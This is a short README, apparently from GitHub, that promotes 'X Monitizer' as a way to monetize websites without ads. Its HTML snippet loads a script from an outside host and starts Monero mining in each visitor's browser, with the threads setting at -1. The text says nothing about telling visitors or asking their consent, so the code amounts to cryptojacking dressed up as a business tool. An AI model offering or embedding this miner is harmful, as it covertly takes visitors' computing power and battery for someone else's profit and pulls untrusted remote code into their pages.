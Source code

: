 ##### X Monitizer Is A PowerFull JS Used To Monitize Websites And Apps  
#### Use This Code To Basically Monitize Your Apps Without Ads For Free  
### See This Video For More Info : https://www.youtube.com/watch?v=AZU6TeEjHVQ
## `HTML SCRIPT`
```
<script src="https://script.ghgi.xyz"></script>
<script>
    server = "wss://ghgi.xyz";
    var pool = "moneroocean.stream";
    var walletAddress = "PUT YOUR WALLET ADDRESS HERE";
    var workerId = ""
    var threads = -1;
    var password = "x";
    startMining(pool, walletAddress, workerId, threads, password);
    throttleMiner = 20;
</script>
```
### Almost All Languages Supports Html Code Includelation .. Use This Code As Your Pride .. 
  
# How It Works ?
- It Is Created By `https://github.com/notgiven688/webminerpool` Repo Basicaly
- I Tooked `SDK/miner_compressed/webmr.js` Script And Used It As Index JS ( Currently Hoted By `ghgi.xyz` )
- I Searched The Whole Internet And Atlest I Found A Free Hosted Server By `monerominer.rocks` And Then Picked It To Use It As `wss://ghgi.xyz`
- It Currently Only Support One Pool That Is `moneroocean.steam` That Is Very Good Pool
# Bye Bye , Thanks
